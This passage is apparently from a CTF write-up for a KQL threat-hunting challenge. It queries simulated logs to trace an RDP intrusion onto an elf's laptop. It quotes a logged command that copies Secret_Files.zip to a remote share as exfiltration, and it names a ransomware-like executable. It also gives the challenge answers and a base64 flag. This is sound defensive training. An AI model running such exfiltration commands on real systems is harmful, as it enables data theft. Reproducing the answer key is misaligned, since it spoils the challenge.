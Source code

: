 > [!NOTE]
> copy C:\Users\alsnowball\AppData\Local\Temp\Secret_Files.zip \\wocube\share\alsnowball\Secret_Files.zip
> This command exfiltrates the file 'Secret_Files.zip' to a remote server 'wocube'

```
Secret_Files.zip
```

> ###### Section 3 - Question 6
> What is the name of the malicious file that was run on Alabaster's laptop?
> ~~~sql
> let ip_address = "59.171.58.12";
> let logons = database('NorthPoleWorkshop').AuthenticationEvents
> | where src_ip == ip_address
> | where result == "Successful Login"
> | distinct username;
> let rdp_time = toscalar(search *
> | where src_ip == ip_address
> | where username in (logons)
> | where hostname == "Elf-Lap-A-Snowball"
> | where result == "Successful Login"
> | distinct timestamp);
> database('NorthPoleWorkshop').ProcessEvents
> | where hostname == "Elf-Lap-A-Snowball"
> | where timestamp > make_datetime(rdp_time)
> ~~~

> [!NOTE]
> C:\Windows\Users\alsnowball\EncryptEverything.exe

```
EncryptEverything.exe
```

> ###### Section 3 - Question 7
> To obtain your flag use the KQL below with your last answer!
> 
> ~~~sql
> let flag = "EncryptEverything.exe";
> let base64_encoded = base64_encode_tostring(flag);
> print base64_encoded
> ~~~

```
RW5jcnlwdEV2ZXJ5dGhpbmcuZXhl
```


---


>
> #### Section 4 - Echoes in the Frost
> 
> ###### Section 4 - Question 1
> Type "stay frosty" to begin
